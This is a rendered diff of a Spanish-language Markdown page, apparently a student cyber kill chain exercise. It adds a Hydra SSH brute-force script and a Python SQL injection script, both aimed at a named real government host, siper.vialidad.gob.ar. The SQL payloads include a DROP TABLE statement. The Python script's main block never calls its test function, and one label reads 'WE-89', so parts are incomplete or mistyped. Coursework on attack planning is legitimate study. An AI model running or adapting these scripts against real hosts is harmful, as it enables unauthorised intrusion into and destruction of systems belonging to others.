

Before and after one commit to dvazquez1981/ceiot_base, a Markdown page: CIBS/ejercicio_1_ciberkillchain_ataque/entrega.md, the part around the change. Shown at 80% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/CIBS/ejercicio_1_ciberkillchain_ataque/entrega.md
+++ b/CIBS/ejercicio_1_ciberkillchain_ataque/entrega.md
@@ -535,7 +535,68 @@ Recopilar información
 
 ## Weaponization
 - T1059 – Command and Scripting Interpreter
+   - Script de Fuerza Bruta con Hydra
+   ```text
+  #!/bin/bash
+
+  echo "Iniciando fuerza bruta SSH"
+  echo "Target: siper.vialidad.gob.ar:22"
+
+   # Usar hydra con lista de usuarios encontrados y contraseñas comunes
+   hydra -L usuarios_validos.txt -P /usr/share/wordlists/rockyou.txt \
+   ssh://siper.vialidad.gob.ar -t 4 -V
+
+   ```
+mucho tiempo...
 - WE-89 – SQL Injection
+  -  Script de Inyección SQL Automatizado
+      ```text
+                  #!/usr/bin/env python3
+
+                import requests
+                import sys
+                import urllib3
+                urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
+
+                def test_sql_injection(url, payloads):
+                    print(f"[+] Testing SQL Injection on: {url}")
+
+                    for payload in payloads:
+                        try:
+                            data = {
+                                "accion": "login",
+                                "recaptcha_response": "dummy",
+                                "datastring": f"txtUsuario={payload}&txtPassword=test"
+                            }
+
+                            response = requests.post(url, data=data, verify=False, timeout=10)
+
+                            if "error" in response.text.lower() or "sql" in response.text.lower():
+                                print(f"[!] Possible SQLi with payload: {payload}")
+                                print(f"Response: {response.text[:200]}...")
+
+                            elif response.status_code != 200:
+                                print(f"[?] Unexpected status code: {response.status_code}")
+
+                        except Exception as e:
+                            print(f"[X] Error with payload {payload}: {e}")
+
+                if __name__ == "__main__":
+                    target_url = "https://siper.vialidad.gob.ar/go/app-index-x.php"
+
+                    # Payloads comunes de SQL Injection
+                    sql_payloads = [
+                        "' OR '1'='1'-- -",
+                        "admin'--",
+                        "' UNION SELECT NULL-- -",
+                        "'; DROP TABLE users;--",
+                        "' OR 1=1#",
+                        "admin'/*",
+                        "' AND 1=CONVERT(int,(SELECT user))--"
+                    ]
+
+      ```
+
 
 
 ## Delivery
````
